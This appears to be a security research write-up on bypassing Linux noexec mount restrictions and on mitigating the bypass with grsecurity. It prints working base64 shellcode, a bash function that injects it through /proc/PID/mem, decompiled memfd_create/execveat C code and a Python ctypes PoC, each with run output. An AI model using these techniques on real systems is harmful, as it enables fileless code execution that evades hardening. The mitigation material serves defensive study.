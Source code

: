 ## noexec bypass

Userland execution without touching the disk has been existed in the hacking community for quite some time. The first paper on Userland exec was authored by the grugq in 2004. Since then, this technique has continuously evolved in various forms within the hacker community. A recent [write-up](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) by THC (The Hacker's Choice, an 0ldsk00l hacker community) "Bypassing noexec and executing arbitrary binaries" has taken this concept to a new level by simplifying the process of writing PoC/exploits that bypass partitions with the noexec flag. The root cause of this exploit vector lies in a change made to the Linux kernel in 2012, which [removed the restrictions on writing to /proc/PID/mem](https://lwn.net/Articles/476947/). THC's write-up provides a detailed explanation of how the [PoC](https://github.com/hackerschoice/memexec) work.

### Set up a RW partition with noexec flag
```
dd if=/dev/zero of=ro-partition.img bs=1M count=100
mkfs.ext4 ro-partition.img 
mkdir /mnt/ro-part
mount -o loop,noexec ro-partition.img /mnt/ro-part/
cd /mnt/ro-part/
git clone https://github.com/hackerschoice/memexec.git
```
### Build the binary:
```
nasm -f elf64 -o memexec-bash-arg-env.o memexec-bash-arg-env.nasm && ld memexec-bash-arg-env.o
```

### Generate shellcode and encode it as base64:
```
ved@debian-vtest:/mnt/ro-part/memexec$ objdump -d a.out |grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' '|tr '\t' ' ' | sed 's/ //g' | xxd -r -p | base64 -w 0
SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==
```

## Use the base64 code and run it on Bash:
```
ved@debian-vtest:/mnt/ro-part/memexec$ memexec() { bash -c 'cd /proc/$$;exec 4>mem;base64 -d<<<SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==|dd bs=1 seek=$[$(cat syscall|cut -f9 -d" ")]>&4' "$@"; }
```

### Show time:
```
ved@debian-vtest:/mnt/ro-part/memexec$ cp /bin/id .
ved@debian-vtest:/mnt/ro-part/memexec$ ./id
-bash: ./id: Permission denied
ved@debian-vtest:/mnt/ro-part/memexec$ cat id |  memexec -- 
253+0 records in
253+0 records out
253 bytes copied, 0.000326824 s, 774 kB/s
uid=1000(ved) gid=1000(ved) groups=1000(ved),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

### C code based on help of decompilers
Base on the [output of decompilers](https://dogbolt.org/?id=47cc5eab-f919-4eea-a6f6-adabc90a1875#Hex-Rays=17). The C code is roughly look like:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <fcntl.h>

#define BUFFER_SIZE 1024
char buffer2[BUFFER_SIZE] = {0};

int main(int argc, char *argv[], char *envp[]) {
    // Find the start of the stack
    char **env = envp;
    char **arg = argv;
    char *last_arg = NULL;
    char *first_env = NULL;

    // Find the last argument and the first environment variable
    while (*arg) {
        last_arg = *arg;
        arg++;
    }
    first_env = env[0];

    // Create a memory file descriptor
    int memfd = memfd_create("kernel", 0);

    if (memfd < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
	}

    // Create a buffer for reading input
    char *buffer = buffer2;
    if (!buffer) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    ssize_t bytes_read;
    while ((bytes_read = syscall (SYS_read, STDIN_FILENO, buffer, BUFFER_SIZE)) > 0) {
        // Write data to the memory file descriptor
        if ( syscall(SYS_write, memfd, buffer, bytes_read) != bytes_read) {
        	syscall(SYS_exit, EXIT_FAILURE);
        }
    }

    if (bytes_read < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    // Prepare to execveat the program in memfd
    char *empty_path = ""; // AT_EMPTY_PATH
    char **new_argv = argv; // Use the original argv
    char **new_envp = envp; // Use the original envp

    // Execute the program in the memory file descriptor
    syscall (SYS_execveat, memfd, empty_path, new_argv, new_envp, 0);

    // If execveat fails
     syscall(SYS_exit, EXIT_FAILURE);
}
```
## Mitigation
PaX/GRsecurity is the only solution against this bypass technique. The vanilla Linux kernel may have the solution in the future.

| Exploit method | Mitigation |
|:-------------:|:-----------------------:|
| Overwrite /proc/*/mem | PaX/GRsecurity enabled /proc/*/mem restriction since the beginning (2012?) |
| memfd_* execution | 1) PaX/GRsecurity RBAC (doesn't require any policy) treat it as SHM_EXEC 2) PaX/GRsecurity TPE |

Enable TPE ([Trusted Path Execution](https://en.wikibooks.org/wiki/Grsecurity/Appendix/Grsecurity_and_PaX_Configuration_Options#Trusted_Path_Execution_(TPE))) w/o RBAC:
```
ved@debian-vtest:/mnt/ro-part/memexec$ groupadd -g 1005 grsec_tpe
ved@debian-vtest:/mnt/ro-part/memexec$ usermod -aG 1005 ved
```

Have fun:
```
ved@debian-vtest:/mnt/ro-part/memexec$ source memexec-perl.sh
ved@debian-vtest:/mnt/ro-part/memexec$ cat /bin/ls | TIME_STYLE=+%s memexec -lah
==> RESULTs
[   59.871267] grsec: denied untrusted exec (due to being in untrusted group and file in non-root-owned directory) of / by /[perl:1426] uid/euid:1000/1000 gid/egid:1000/1000, parent /usr/bin/bash[bash:1425] uid/euid:1000/1000 gid/egid:1000/1000

ved@debian-vtest:/mnt/ro-part/memexec$ deluser ved grsec_tpe
```

Enable [RBAC](https://grsecurity.net/featureset/rbac) w/o TPE:
```
ved@debian-vtest:/mnt/ro-part/memexec$ gradm -E
ved@debian-vtest:/mnt/ro-part/memexec$ source memexec-perl.sh
ved@debian-vtest:/mnt/ro-part/memexec$ cat /bin/ls | TIME_STYLE=+%s memexec -lah
==> RESULTs
[  400.930022] grsec: (default:D:/) denied execution of / by /usr/bin/perl[perl:2168] uid/euid:1000/1000 gid/egid:1000/1000, parent /usr/bin/bash[bash:2167] uid/euid:1000/1000 gid/egid:1000/1000
```

## Extra bonus from the legacy of 0ldsk00l hackers
Let's say THC's approach as suitable for binary/backdoor execution. There's another [intriguing method](https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/) for bypassing the noexec restriction that primarily benefits exploit writers (s0rry, pentesters! This is not for you). GRHack introduced a technique to circumvent noexec by leveraging a feature in Python called Foreign Function Interface (FFI). This feature enables Python developers to directly invoke any C function from a shared object. You can bypass the noexec limitation by porting the exploit to Python. It's important to note that this approach specifically affects GNU/Linux systems, as [OpenBSD does not allow the loading of shared objects in noexec partitions](https://github.com/huku-/research/wiki/Sandboxing-and-isolation#212-mount-options). The PoC (run-ls.py) is simple as:

```
import ctypes

libc = ctypes.CDLL('libc.so.6')

system = libc.system
system.argtypes = [ctypes.c_char_p]
system.restype = ctypes.c_int

command = b"ls -l"
result = system(command)

print("Return code:", result)
```

Test the PoC in noexec partition:
```
ved@debian-vtest:/mnt/ro-part/memexec$ python3 run-ls.py 
total 208
-rwxr-xr-x 1 ved ved   5416 Oct 31 12:42 a.out
-rw-r--r-- 1 ved ved  43808 Oct 31 12:45 id
-rwxr-xr-x 1 ved ved 138856 Oct 28 19:36 ls
-rw-r--r-- 1 ved ved   3611 Oct 28 19:33 memexec-bash-arg-env.nasm
-rw-r--r-- 1 ved ved   1216 Oct 31 12:42 memexec-bash-arg-env.o
-rw-r--r-- 1 ved ved   1744 Oct 28 19:33 memexec-bash.nasm
-rw-r--r-- 1 ved ved    544 Oct 28 19:33 memexec-bash.sh
-rw-r--r-- 1 ved ved   1481 Oct 28 19:33 memexec.nasm
-rw-r--r-- 1 ved ved    736 Oct 28 19:39 memexec.o
-rw-r--r-- 1 ved ved    192 Oct 28 19:33 memexec-perl.sh
-rw-r--r-- 1 ved ved   1671 Oct 28 19:33 memexec.php
-rw-r--r-- 1 ved ved   1696 Oct 28 19:44 memexec-shell.c
-rw-r--r-- 1 ved ved   3963 Oct 28 19:33 README.md
-rw-r--r-- 1 ved ved    211 Nov  3 23:07 run-ls.py
-rw-r--r-- 1 ved ved    340 Oct 30 17:20 shellcode_base64.txt
-rw-r--r-- 1 ved ved    736 Oct 30 16:43 test.o
-rw-r--r-- 1 ved ved   1442 Oct 30 16:43 test.s
Return code: 0
```

## Reference
* Bypassing noexec and executing arbitrary binaries https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries
* A /proc/PID/mem vulnerability https://lwn.net/Articles/476947/
* Execute ELF files without dropping them on disk https://github.com/nnsee/fileless-elf-exec
* userland exec for Linux x86_64 https://github.com/bediger4000/userlandexec
* The Design and Implementation of Userland Exec https://grugq.github.io/docs/ul_exec.txt
* Python in noexec-land https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/
* https://en.wikibooks.org/wiki/Grsecurity/Appendix/Grsecurity_and_PaX_Configuration_Options#Trusted_Path_Execution_(
* https://grsecurity.net/featureset/rbac
